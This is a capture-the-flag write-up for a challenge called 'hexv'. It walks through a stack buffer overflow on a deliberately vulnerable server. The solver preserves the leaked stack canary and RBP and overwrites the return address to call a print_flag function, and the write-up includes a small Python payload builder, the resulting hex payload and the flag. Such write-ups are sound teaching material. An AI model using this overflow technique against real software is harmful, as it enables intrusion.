




## **hexv**

### **Challenge Information**

<p align="center">
  
</p>

### **Solution**

#### Interacting with the Server

First, we can connect with the server. There is a `help` command that allows us to see all the commands available to us. We can also run the `dump` command to see the server's memory dump, as well as the `funcs` command to see all the functions and their addresses.

<p align="center">
  
</p>

We can first notice that there is a `print_flag` function that would print the flag. However, we are unable to access it as none of our commands can directly call that function.

Next, we can notice that the memory layout has three colors, with a lot of bytes in orange, 8 bytes in red right after, 8 more bytes in white after that, and then 8 bytes in blue.

Next, I tried the `str` command. I ran the `str` command first with 8 bytes worth of `41`, then with 16 bytes, and ran `dump` after both.

<p align="center">
  
</p>

Notice here that the first 5 bytes of the memory doesn't seem to change, but the bytes after that get overwritten by my input, corresponding to the amount of bytes I sent in, ie when I send in 8 bytes, the 3 bytes directly after the first 5 bytes are overwritten, and when I send in 16 bytes, the 11 bytes directly after the first 5 are overwritten.

#### The Exploit

My first idea is that this is a stack overflow challenge where I need to overwrite the RIP so when I run the `quit` command the `print_flag` function runs instead.

The memory layout is colored, and the red is likely the canary, the white right after is the RBP, and the blue right after the RIP. Operating under these assumptions, I begin to craft my payload.

First, I need 120 bytes of padding to get past the orange bytes and reach the canary. I then need to add the 8 red bytes exactly as they are in order to preserve the canary. After that, I need to add the 8 white bytes as they are to preserve the RBP. Lastly, I need to replace the RIP with the address of the `print_flag` command, which we can get from running the `funcs` command. I wrote a script to help put this together:

[payload.py](assets/payload.py)

```
buf = "41" * 120
canary = "00b7fb4c65d9fc08"
rbp = "00" * 8
address = "0000558da6bfa2e9"
rip = ""
for i in range(len(address) // 2):
    rip = rip + address[len(address) - (2 * i) - 2] + address[len(address) - (2 * i) - 1]

print("str " + buf + canary + rbp + rip)
```

Note that for the RIP, I invert the address since the address is given in big endian, but the RIP needs to be little endian. Running my script gives me `str 41414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414100b7fb4c65d9fc080000000000000000e9a2bfa68d550000`. Sending this payload in and then running the `dump` and `quit` commands results in this:

<p align="center">
  
</p>

We can see from the `dump` command that we managed to preserve the canary and overwrite the RIP to the address of the `print_flag` function, and running `quit` gives us the flag.

The flag is: `bctf{sur3_h0Pe_th1S_r3nderED_PR0pErly}`